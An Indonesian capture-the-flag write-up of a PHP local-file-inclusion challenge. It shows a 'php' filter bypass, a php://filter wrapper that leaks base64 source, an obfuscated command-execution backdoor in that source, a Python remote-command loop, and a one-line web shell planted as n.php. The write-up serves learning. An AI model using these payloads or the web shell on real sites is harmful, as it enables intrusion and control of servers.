




# Write UP LFI Challenge SHL


## Prolog

Pada suatu sore iseng2 buka Telegram Surabaya Hacker Link, Karena biasanya ada hal hal menarik yang bisa dibaca. Namun Sore itu sekitar masuk waktu Maghrib ternyata ada suatu Web Challenge.



Setelah Ibadah Maghrib selesai. Saya mulai mengejerkan Challenge tersebut, Saat saya mengerjakan belum ada sama sekali yang Solved/ Menyelesaikan Challenge tersebut mungkin pada sibuk, Saya aja nganggur.

### Informasi 

Pada saat saya menyelesaikan Challenge tersebut masih menggunakan source yang lama, Bukan yang saya sertakan pada write up ini. Pembuat soal saat saya menyelesaikan soal ini belum menyertakan Clue, Namun beberapa saat saya menyelesaikan soal ini, Pembuat soal merevisi scriptnya dan menambahkan clue yang sangat memudahkan mengerjakan Challenge ini.


# Proof of Concept 

Di bawah ini langkah langkah yang saya lakukan dan sengaja dibuat panjang agar dramatis saja.

## Reconnaissance

Iya seperti pada umumnya kita mencari Informasi sebanyak banyaknya. Saya melakukan Dirscan menggunakan `dirsearch`

```sh
$ python dirsearch.py -u https://challshl.com/ -e php,html
```

Berikut ini beberapa dir dan file yang menurut saya penting.

```
 403 -  1KB   - /.git
 200 -  185B  - /robots.txt
 200 -  100b  - /article/
 ```


Disitu terdapat sebuah `.git` folder. Mari kita dump dengan `gitdumper.sh` yang bisa kalian dapatkan dengan mudah jika kalian sedikit searching.

```sh
$ ./gitdumper.sh https://challshl.com/.git/ .
```

Dan tidak beruntungnya saya adalah `.git` folder git ini ternyata tidak memberikan informasi apa apa, Karena ini adalah folder `.git` milik Challenge sebelum ini. Yang saya tidak membuat writeupnya. 


Nama hero Dota2 itu untuk mewakili rasa kesal saya pada yang mendeploy soal.


### Analisa pada behaviour Challenge

Berikut ini tampilan Challenge yang sudah direvisi




Standart web pada biasanya yang tidak memiliki fitur yang terkoneksi dengan Database. Berati bisa kita simpulkan tidak ada SQLi disini.

Jika kita mengclick salah satu Sidebar menunya akan menampilkan isi dari Sidebar itu, Seperti ini contohnya jika kita mengclick Timeline



Webnya ala ala SPA (Single Page Application) gitu keren. Mari kita analisa source JSnya, Yang melakukan requests ke backend.



Fokus pada fungsi `requestPage` menerima sebuah parameter `i` yang mana parameter `i` berasal Dari value dari Class pada id nav `slide-menu`.


Melihat pada network firefox.

Methode `xhr` mengirimkan requests seperti ini

Metodhe : POST
URL     : https://challshl.com/index.php
Parameter : file=article/Calendar.html


Informasi yang saya dapatkan sudah cukup. Mari kita masuk ketahap Exploitasi.


## Less Porn More Exploit

Saya melakukan curl testing pada paramter file dengan coba mendapatkan file `index.php` pada folder `article`

```$ curl https://challshl.com --data "file=article/index.php"```

Dan mendapatkan response.

```
<br />
<b>Warning</b>:  include(article/index.): failed to open stream: No such file or directory in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  include(article/index.): failed to open stream: No such file or directory in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'article/index.' for inclusion (include_path='.:/opt/alt/php72/usr/share/pear') in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />
```

Pada warning tersebut fungsi `include` gagal melakukan proses including karena dianggap file atau directorynya tidak ada. Kita bisa pastikan directory `article` ada, Berati yang bermasalah adalah Filenya.


#### Analisa masalah

Pada error paling bawa `Failed opening 'article/index.` Failed opening file `index.` pada folder `article`. Padahal penulis diatas benar2 menuliskan `index.php` pada paramter file. Asumsi penulis kata `php` akan direplace. Mari kita coba dengan paramter `file=article/index.ph` .

```sh
$ curl https://challshl.com --data "file=article/index.ph"
```
Response 
```
<br />
<b>Warning</b>:  include(article/index.ph): failed to open stream: No such file or directory in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  include(article/index.ph): failed to open stream: No such file or directory in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'article/index.ph' for inclusion (include_path='.:/opt/alt/php72/usr/share/pear') in <b>/home/challshl/public_html/index.php</b> on line <b>9</b><br />```
```

Kita mendapatkan error yang hampir sama. Namun kali ini filenya adalah `index.ph` Berati asusmsi penulis benar bahwa kata `php` akan direplace. 

Maka penulis mengasumsikan script yang digunakan seperti ini.

```php

<?php 
    $data = "";
    $data = str_replace("php", "", $data);
    echo $data;
?>
```

Maka penulis dapat mengabuse dengan menuliskan dengan dirangkai dengan tiap huruf dari php itu sendiri. Seperti ini.

`phppphphphpp`

Kata php akan direplace dan akan merangkai php baru.

`[php]p[php]h[php]p` -> php. 

Oke kita coba meng curl ulang.


```sh
$ curl https://challshl.com --data "file=article/index.phppphphphpp"
```

Response.

```
Nothing Here >:(
```

Response yang sama jika kita mendirect akses folder `article`. Berati asumsi penulis dan abuse php penulis berhasil.

Sejujurnya penulis sempat merasa kebingungan saat akan mengambil `index.php` pada root folder. Karena `../` juga diblock oleh pembuat soal. Sebenarnya juga bisa diabuse juga, Sempat berfikir bahwa folder `article` adalah sebuah fixed path yang tidak bisa dihilangkan pada requests file. Ternyata bisa.


```sh
$ curl https://challshl.com --data "file=index.phppphphphpp"
```

Penulis menghilangkan folder article namun server mengalami kegagalan. Dengan response seperti ini.

```
<!DOCTYPE html>
<html style="height:100%">
<head>
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<title> 503 Service Unavailable
</title></head>
<body style="color: #444; margin:0;font: normal 14px/20px Arial, Helvetica, sans-serif; height:100%; background-color: #fff;">
<div style="height:auto; min-height:100%; ">     <div style="text-align: center; width:800px; margin-left: -400px; position:absolute; top: 30%; left:50%;">
        <h1 style="margin:0; font-size:150px; line-height:150px; font-weight:bold;">503</h1>
<h2 style="margin-top:20px;font-size: 30px;">Service Unavailable
</h2>
<p>The server is temporarily busy, try again later!</p>
</div></div></body></html>
```
Penulis sadar bahwa server error dikarenakan, Server terus menerus melakukan include pada index.php.

Karena sadar path `article` dapat dihilangkan. Maka penulis menggunakan wrapper untuk mendapatkan source root index.php.


`phppphphphpp://filter/convert.base64-encode/resource=index.phppphphphpp`

Seperti itu.

```sh
$ curl https://challshl.com --data "file=phppphphphpp://filter/convert.base64-encode/resource=index.php
pphphphpp"
```

Response

```
PD9waHAKQGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgMSk7CkBlcnJvcl9yZXBvcnRpbmcoRV9BTEwgJiB+RV9OT1RJQ0UpOwoKaWYoaXNzZXQoJF9QT1NUWydmaWxlJ10pICYmICRmaWxlPSRfUE9TVFsnZmlsZSddKXsKICAgICRmaWxlID0gcHJlZ19yZXBsYWNlKCd+KGh0dHBzfGh0dHApKDovLyl+VXNpJywgJycsICRmaWxlKTsKICAgICRmaWxlID0gcHJlZ19yZXBsYWNlKCd+KHBocHxwaHBbXGRdKX5Vc2knLCAnJywgJGZpbGUpOwogICAgJGZpbGUgPSBwcmVnX3JlcGxhY2UoJ2BcLlwuL3xcLlwuXFxcYCcsICcnLCAkZmlsZSk7CiAgICBpbmNsdWRlKCRmaWxlKTsKICAgIGlmKGlzX2ZpbGUoJ2Vycm9yX2xvZycpKXsgdW5saW5rKCdlcnJvcl9sb2cnKTt9CiAgICBleGl0KCk7Cn1lbHNlewogICAgJF89ImB7e3siXiI/PD4vIjskXz1wcmVnX3JlcGxhY2UoJ34oY3VybHx3Z2V0fG5jfFx8XCZ8XDspflVzaScsICcjJywgQCR7JF99WyRfWzBdXSk7YCRfYDsKfQo/Pgo8IURvY3R5cGUgaHRtbD4KPGhlYWQ+CiAgICA8dGl0bGU+U2ltcGxlIEFydGljbGUgV2ViPC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iLi9zdHlsZS5jc3MiID4KPC9oZWFkPgo8Ym9keT4KPCEtLSBOYXZpZ2F0aW9uIC0tPgo8bmF2IGlkPSJzbGlkZS1tZW51Ij4KICA8dWw+CiAgICA8bGkgY2xhc3M9InRpbWVsaW5lIj5UaW1lbGluZTwvbGk+CiAgICA8bGkgY2xhc3M9ImV2ZW50cyI+RXZlbnRzPC9saT4KICAgIDxsaSBjbGFzcz0iY2FsZW5kYXIiPkNhbGVuZGFyPC9saT4KICAgIDxsaSBjbGFzcz0idGltZWxpbmUiPjxhIGhyZWY9Ii4vc29sdmVyLnR4dCIgc3R5bGU9InRleHQtZGVjb3JhdGlvbjogbm9uZTsiPlNvbHZlcjwvYT48L2xpPgogIDwvdWw+CjwvbmF2Pgo8IS0tIENvbnRlbnQgcGFuZWwgLS0+CjxkaXYgaWQ9ImNvbnRlbnQiPgogIDxkaXYgY2xhc3M9Im1lbnUtdHJpZ2dlciI+PC9kaXY+CiAgPGgxPldlbGNvbWUgdG8gTXkgUGFnZTwvaDE+CiAgPGRpdiBpZD0iYXJ0aWNsZSI+PC9kaXY+CjwvZGl2Pgo8c2NyaXB0PgooZnVuY3Rpb24oKSB7CiAgdmFyICRib2R5ID0gZG9jdW1lbnQuYm9keQogICwgJG1lbnVfdHJpZ2dlciA9ICRib2R5LmdldEVsZW1lbnRzQnlDbGFzc05hbWUoJ21lbnUtdHJpZ2dlcicpWzBdLAogICAgJHRpbWVsaW5lID0gJGJvZHkuZ2V0RWxlbWVudHNCeUNsYXNzTmFtZSgndGltZWxpbmUnKVswXTsKCiAgICBmdW5jdGlvbiByZXF1ZXN0UGFnZShpKXsKICAgIHZhciB4aHIgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKICAgICAgICB4aHIub25yZWFkeXN0YXRlY2hhbmdlID0gZnVuY3Rpb24oKSB7CiAgICAgICAgICAgIGlmICh0aGlzLnJlYWR5U3RhdGUgPT0gNCAmJiB0aGlzLnN0YXR1cyA9PSAyMDApewogICAgICAgICAgICAgICAgZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ2FydGljbGUnKS5pbm5lckhUTUwgPXhoci5yZXNwb25zZVRleHQ7CiAgICAgICAgICAgIH0KICAgICAgICB9OwogICAgICAgIHhoci5vcGVuKCJQT1NUIiwgIi4vaW5kZXgucGhwIiwgdHJ1ZSk7CiAgICAgICAgeGhyLnNldFJlcXVlc3RIZWFkZXIoIkNvbnRlbnQtdHlwZSIsICJhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQiKTsKICAgICAgICB4aHIuc2VuZCgiZmlsZT0iK2kpOwogICAgfSAgICAKICAgIGZvciAoY29uc3QgbGkgb2YgZG9jdW1lbnQucXVlcnlTZWxlY3RvckFsbCgnI3NsaWRlLW1lbnU+dWw+bGknKSkgewogICAgICAgICRib2R5LmdldEVsZW1lbnRzQnlDbGFzc05hbWUobGkuY2xhc3NOYW1lKVswXS5vbmNsaWNrID0gZnVuY3Rpb24oKXtyZXF1ZXN0UGFnZSgnYXJ0aWNsZS8nICt0aGlzLnRleHRDb250ZW50ICsgJy5odG1sJyl9OwogICAgfQogICAgCiAgICBkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgnYXJ0aWNsZScpLmlubmVySFRNTCA9IjxwPue/u+itr+mAmeS6m+ipnuaYr+aykuacieaEj+e+qeeahOOAgue5vOe6jOWwi+aJvuS4pueNsuW+l+W3rui3neOAgjwvcD4iOwoKICBpZiAoIHR5cGVvZiAkbWVudV90cmlnZ2VyICE9PSAndW5kZWZpbmVkJyApIHsKICAgICRtZW51X3RyaWdnZXIuYWRkRXZlbnRMaXN0ZW5lcignY2xpY2snLCBmdW5jdGlvbigpIHsKICAgICAgJGJvZHkuY2xhc3NOYW1lID0gKCAkYm9keS5jbGFzc05hbWUgPT0gJ21lbnUtYWN0aXZlJyApPyAnJyA6ICdtZW51LWFjdGl2ZSc7CiAgICB9KTsKICB9Cn0pLmNhbGwodGhpcyk7Cjwvc2NyaXB0Pgo8L2JvZHk+CjwvaHRtbD4=
```
Okay berhasil. 

```sh
$ curl https://challshl.com --data "file=phppphphphpp://filter/convert.base64-encode/resource=index.phppphphphpp" | base64 -d
```

Dengan itu kita mendapatkan source yang dapat dilihat pada folder `/src/index.php`


Pada source itu. Hal yang paling menarik adalah.

```php
<?php
$_="`{{{"^"?<>/";$_=preg_replace('~(curl|wget|nc|\|\&|\;)~Usi', '#', @${$_}[$_[0]]);`$_`;
?>
```

Pada variable `$_` adalah shell pada kompetisi CJ2019 :( menjiplak tanpa merubah feelsbadman :( 

Namun selanjutnya lumayan berbeda :D 

#### Debuging

Saya merubah scriptnya menjadi seperti berikut.

```php
<?php
$_="`{{{"^"?<>/";
    die($_);
    $_=preg_replace('~(curl|wget|nc|\|\&|\;)~Usi', '#', @${$_}[$_[0]]);
    `$_`;
?>
```

Saya menghentikan pada variable $_ saat pertama kali didefinisikan. Dan mendapatkan hasil

`_GET`

Variable `$_` kedua melakukan regex preg_replace. Berikut ini stuktur preg_replace

preg_replace($pattern, $replacement, $string);

Parameter pertama yaitu berisi regexnya. Yang pada intinya tidak boleh ada curl,wget,nc,\,&,;

Parameter kedua berisi # yaitu string pengantinya.

Parameter ketiga `${$_}[$_[0]]` Cukup tricky dibaca. Tapi marilah kita debug.

`${$_}` Maksudnya adalah. `$_` Berisi `_GET` maka maksudnya adalah mengambil `_GET` sebagai variable.

`[$_[0]]` Maksudnya adalah `$_` Berisi `_GET` dan [0] adalah index ke 0. Maka index ke 0 dari `_GET` adalah `_`.

Jadi pada `${$_}[$_[0]]` memiliki arti adalah index `_`. 

Pada preg_replace tersebut akan mencari index `_` yang akan diregex. Dan menumpuk variable `$_`. 

Setelah ini variable `$_` Akan berisi value dari index `_`.

Selanjutnya baru ada `system($_)`.


Kurang lebih seperti ini.

`index.php?_GET=nepska&_=shell_command`.

Saya membuat script sederhana yang dapat dilihat pada `/src/rce.py`

```python
import requests as  r 
output_file = "nikko"
url = "https://challshl.com/"
while True:
    input_command = input("Command: ")
    limit_shell = "index.php?_GET=nepska&_={0} > {1}".format(input_command, output_file)
    fixed_url   = url+limit_shell

    shell_fix   = url+"n.php?0={}".format(input_command)
    # print(shell_fix)
    # print(r.get(shell_fix).text)

    r.get(fixed_url)
    resnponse = r.get(url+"{}".format(output_file)).text
    print(resnponse)
```


Yang memudahkan saya melakukan interaksi shell. Dan payload akhirnya untuk menulis pada `solver.txt` adalah `echo @ytyao > solver.txt` .


##### Bonus

Karena iseng dan adanya batasan shell, Saya mengupload mini shell sebagai berikut.

```echo -en '<?= `$_GET[0]` ?>' > n.php```

Dan dapat diakses dengan `n.php?0=shell` Saya sertakan juga pada `/src/rce.py`.


## Penutup

Sekian writeup yang cukup Dramatis ini. Dibuat untuk mengisi waktu luang dan sebagai apresiasi untuk pembuat soal. Challengenya menarik dan menambah trick sebelum adanya revisi. Terima Kasih telah Membaca. Nikko Enggaliano.


